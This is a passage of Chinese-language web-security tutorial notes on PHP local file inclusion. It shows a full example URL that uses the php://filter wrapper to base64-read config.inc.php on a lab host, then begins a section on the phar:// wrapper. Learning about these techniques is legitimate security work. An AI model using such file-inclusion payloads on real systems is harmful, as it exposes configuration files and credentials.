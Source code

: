 条件：只是读取，需要开启 allow_url_fopen，不需要开启 allow_url_include；
![ad5bbb3e25634c64a6ae43536443e92f.png](../../images/8df105cc5af240748d31cd4a2f1ce886.png)
![5ddeb9ae63e24f0a03771896eaf7e351.png](../../images/0ccc53cfad8d4ddba58303656a5e7908.png)

同理可读config.inc.php等配置文件http://172.16.3.186/test/incliue.php?filename=php://filter/read=convert.base64-encode/resource=/var/www/html/config/config.inc.php
![5b2f4b4d7609a596859a574e0079adc9.png](../../images/7987babd7dc8405eadbe91e3f54210a5.png)

## 3.2 phar://伪协议

这个参数是就是php解压缩包的一个函数，不管后缀是什么，都会当做压缩包来解压。
